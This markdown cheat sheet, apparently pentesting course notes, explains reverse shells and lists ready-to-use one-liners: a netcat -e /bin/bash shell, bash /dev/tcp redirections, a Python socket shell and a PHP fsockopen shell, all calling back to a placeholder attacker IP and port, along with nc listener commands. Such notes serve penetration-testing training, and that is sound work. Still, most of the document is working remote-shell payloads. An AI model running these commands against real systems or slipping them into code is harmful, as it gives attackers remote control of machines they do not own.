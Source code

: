 # Reverse Shell Techniques

A reverse shell is a technique used in penetration testing or hacking to gain remote access to a target machine. It involves establishing a connection from the target machine back to the attacker's machine, allowing the attacker to execute commands on the target system. Here are some commonly used reverse shell techniques:

## Use Reverse Shell Generator

- On your AttackBox, go to Firefox > Bookmarks > Revshell Generator (or http://localhost:7778/)
- Under IP & Port, add your attackbox IP and Port on which you want your vulnerable machine to connect.
- Under Reverse choose among wide variety of Reverse Shells provided. Common ones are: `nc mkfifo`, `Python #2`, `Python3 #1`, `Python3 #2`, `Python3 shortest`.
- The attacker sets up a listener using `nc -lvp <attacker_port>` and waits for the target machine to connect back.
- Copy the reverse shell and paste it to the location where it gets executed by the vulnerable machine.

## Netcat Reverse Shell

- Netcat, or `nc`, is a versatile networking utility that can be used to establish a reverse shell connection.
- The attacker sets up a listener using `nc -lvp <attacker_port>` and waits for the target machine to connect back.
- Example: `nc -lvnp <port>` on the attacker's machine and `nc <attacker_ip> <attacker_port> -e /bin/bash` on the target machine.

Resource link: [Netcat Reverse Shell Cheat Sheet (highon.coffee)](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

## Bash Reverse Shell

- Bash, the popular Unix shell, can be used to create a reverse shell connection.
- The attacker sets up a listener using `nc -lvp <attacker_port>` and waits for the target machine to connect back.
- Example 1: `bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1` on the target machine.
- Example 2 (Pentest Monkey Bash Reverse Shell): `bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1'` on the target machine.

Resource link: [Bash Reverse Shell Cheat Sheet (pentestmonkey.net)](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## Python Reverse Shell

- Python scripting language can be used to create a reverse shell connection.
- The attacker sets up a listener using `nc -lvp <attacker_port>` and waits for the target machine to connect back.
- Example: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>",<attacker_port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` on the target machine. Change the values on `<attacker_ip>` and `<attacker_port>`

Resource link: [Python Reverse Shell Cheat Sheet (sushant747.gitbooks.io)](https://sushant747.gitbooks.io/total-oscp-guide/reverse-shell.html)

## PHP Reverse Shell

- PHP can be used to create a reverse shell connection.
- The attacker sets up a PHP script as the listener and waits for the target machine to connect back.
- Example (Pentest Monkey PHP Reverse Shell): `php -r '$sock=fsockopen("<attacker_ip>",<attacker_port>);exec("/bin/sh -i <&3 >&3 2>&3");'` on the target machine.

Resource link: [PHP Reverse Shell Cheat Sheet (pentestmonkey.net)](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
